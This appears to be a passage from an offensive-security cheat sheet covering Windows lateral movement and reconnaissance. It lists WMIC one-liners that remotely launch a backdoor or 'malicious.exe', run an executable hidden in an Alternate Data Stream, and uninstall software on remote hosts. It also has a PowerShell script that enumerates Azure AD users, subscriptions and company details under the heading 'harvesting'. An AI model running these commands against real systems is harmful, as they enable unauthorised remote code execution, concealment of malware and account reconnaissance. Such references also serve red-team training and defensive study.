 Lateral Movement

```
wmic /node:<IP> /user:administrator process call create "cmd.exe /c <backdoor>"
```

Uninstall Program

```
wmic /node:"#{node}" product where "name like '#{product}%%'" call uninstall
```

Execute a .EXE file stored as an Alternate Data Stream (ADS)

```
wmic.exe process call create "c:\ads\notsus.txt:malicious.exe"
```

Execute malicious.exe on a remote system

```
wmic.exe /node:"192.168.0.99" process call create "malicious.exe"
```

## Passive OS Detection and TCP Fingerprinting:

![image](https://user-images.githubusercontent.com/72598486/216523402-aceea591-a143-4145-bdbc-f2b02027682e.png)

## Offline Microsoft Azure Active Directory Harvesting with PowerShell:

This script demonstrates how to interact with Microsoft Azure Active Directory via PowerShell.  You will need an Azure AD account first, which is free: http://azure.microsoft.com/en-us/services/active-directory/

```
# Import the Azure AD PowerShell module:
Import-Module -Name Azure
# List the cmdlets provided by the module (750+):
Get-Command -Module Azure 
Add-AzureAccount
Get-AzureAccount
Get-AzureSubscription

# Import the Azure AD PowerShell module for MSOnline:
Import-Module -Name MSOnline
# List the cmdlets provided by the MSOnline module:
Get-Command -Module MSOnline

# Connect and authenticate to Azure AD, where your username will
# be similar to '<yourusername>@<yourdomain>.onmicrosoft.com':
$creds = Get-Credential
Connect-MsolService -Credential $creds


# Get subscriber company contact information:
Get-MsolCompanyInformation


# Get subscription and license information:
Get-MsolSubscription | Format-List *
Get-MsolAccountSku   | Format-List *


# Get Azure AD users:
Get-MsolUser


```